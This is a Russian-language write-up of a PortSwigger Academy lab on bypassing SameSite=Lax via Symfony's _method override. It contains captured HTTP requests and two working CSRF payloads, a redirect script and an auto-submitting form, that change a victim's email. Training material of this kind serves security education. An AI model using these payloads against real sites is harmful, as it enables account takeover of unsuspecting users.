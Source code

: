 # SameSite Lax bypass via method override
PRACTITIONER

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

## Решение
При логине кукис "session" устанавливается без явного указания атрибута SameSite. Как известно, "жертва" использует Chrome, а в Chrome SameSite установится в Lax. Это значит, что можно отправить с другого сайта GET-запрос, которому будет доступен кукис "session".
```
POST /login HTTP/2
Host: 0aae00a703de72528386788e001d00e2.web-security-academy.net
Cookie: session=63aZqwTW9d5ekwbpg3tkv2n46TlxaNQI
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0aae00a703de72528386788e001d00e2.web-security-academy.net
Referer: https://0aae00a703de72528386788e001d00e2.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener&password=peter
```
Функционал смены email не принимает GET-запросов:
```
GET /my-account/change-email?email=wiener456@normal-user.net&_method=POST HTTP/2
Host: 0aae00a703de72528386788e001d00e2.web-security-academy.net
Cookie: session=kRxax3oqErWswnOw13zH6LPe4Jjp49NL
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://exploit-0a15009c031772c98389773a016a00e0.exploit-server.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
```
```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 29

"That email is not available"
```
Но это ограничение можно обойти в случае фреймворка Symfony, если добавить запросу query-параметр `_method=POST`:
```
<script>
document.location = "https://0aae00a703de72528386788e001d00e2.web-security-academy.net/my-account/change-email?email=wiener456@normal-user.net&_method=POST";
</script>
```
Или через форму:
```
<html>
<body>
    <form action="https://0ac6000e031c7ecd84950e05002400f9.web-security-academy.net/my-account/change-email" method="GET">
        <input type="hidden" name="email" value="wiener123@normal-user.net">
        <input type="hidden" name="_method" value="POST">
    </form>
    <script>document.forms[0].submit();</script>
</body>
</html>
```
Задание выполнено.
